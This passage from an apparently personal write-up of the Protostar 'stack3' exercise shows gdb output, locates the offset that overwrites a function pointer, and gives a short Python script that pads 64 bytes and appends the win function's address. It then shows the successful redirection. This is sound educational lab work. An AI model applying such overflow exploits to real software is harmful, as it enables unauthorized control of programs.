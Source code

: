 ``` shell
0xbffff730:     0x4a4a4a4a      0x4b4b4b4b      0x4c4c4c4c      0x4d4d4d4d
0xbffff740:     0x4e4e4e4e      0x4f4f4f4f      0x50505050      0x51515151
eax            0x51515151       1364283729
ecx            0x0      0
edx            0xb7fd9340       -1208118464
ebx            0xb7fd7ff4       -1208123404
esp            0xbffff6f0       0xbffff6f0
ebp            0xbffff758       0xbffff758
esi            0x0      0
edi            0x0      0
eip            0x8048475        0x8048475 <main+61>
eflags         0x200296 [ PF AF SF IF ID ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
fs             0x0      0
gs             0x33     51

Breakpoint 1, 0x08048475 in main (argc=1448498774, argv=0x57575757) at stack3/stack3.c:22
```

The value of **eax** when reaching the breakpoing is `0x51515151`, and **0x51** is the character "Q". So, at this moment, we know how many characters we need for the paddings (from 'A' to 'P').

Since our primary goal is to redirect the program to **win** function, we just need to overflow **eax** with the address of **win** in little-endian format.

The address of **win** is `0x8048424`:

```shell 
(gdb) p win
$1 = {void (void)} 0x8048424 <win>
```

Here is my updated script to solve this level:

```python 
import struct

padding = "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPP"
win = struct.pack("I", 0x8048424)

print padding + win
```

And we successfully beat this level. ^^

``` shell
user@protostar:~$ python script.py | /opt/protostar/bin/stack3
calling function pointer, jumping to 0x08048424
code flow successfully changed
```

## Stack 4
